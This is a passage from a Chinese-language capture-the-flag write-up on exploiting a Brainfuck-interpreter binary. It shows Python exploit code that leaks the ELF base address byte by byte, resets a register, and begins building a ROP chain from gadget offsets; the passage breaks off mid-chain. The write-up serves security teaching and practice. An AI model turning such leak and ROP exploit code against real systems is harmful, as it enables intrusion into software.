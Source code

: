 调试发现`rcx`附近有几个特别的地址，它们末尾几位总是`430`，相对于`elf_base`是固定的且`offset=0x10430`，就可以借助`brainfuck`中`.`逐字节泄露:

```py
payload2 += b'[>.,],'
# previous_exploit
for i in range(7):
	sn(b'a')
	rn(1)
for i in range(11):
	leak_addr = b''
	for i in range(8):
		sn(b'a')
		leak_addr += rn(1)
	leak_addr = uu64(leak_addr)
	lg("leak_addr")
lg("leak_addr")
elf_base = leak_addr - 0x10430
```

这样就可以通过偏移来构造`ROP`了.

---

但是刚刚泄露时循环`>`修改了`rbx`，因此通过`b'[<,],'`将`rbx`归零:

```py
payload2 += b'[<,],'
# previous_exploit
sn(b'\x00')
for i in range(0x5f):
	sn(b'a')
sn(b'\x00')
```

---

### ROP

进一步调试，发现程序最后`ret_addr`距离`rcx`还有一段偏移，因此考虑再最初多`pop`几次`rax`:

```py
# previous
for i in range((0x7ffe79705030-0x7ffe79704e90) // 8):
	sn(b'a')
```

---

接下来就是`ROP`利用了:

```py
def ROP(base):
	pop_rdi_ret = 0x711d + base
	mov_rdx_rdi_ret = 0x103F2 + base
	pop_rsi_ret = 0x7285 + base
	pop_rax_ret = 0x10143 + base
	syscall = 0x10847 + base
	buffer = 0x62078 + base
	or_rax_rcx_ret = 0x41a73 + base
	magic1 = 0x40512 + base
	magic2 = 0x404ba + base
	payload = p64(0) # pop rbx
	payload += p64(pop_rax_ret) + p64(0) # ret
	payload += p64(or_rax_rcx_ret)
	payload += p64(pop_rsi_ret) + p64(0xC0)
	payload += p64(pop_rdi_ret) + p64(buffer - 0x18)
	payload += p64(magic1) # [buffer] = rcx + 0xC0

	payload += p64(pop_rdi_ret) + p64(0)
```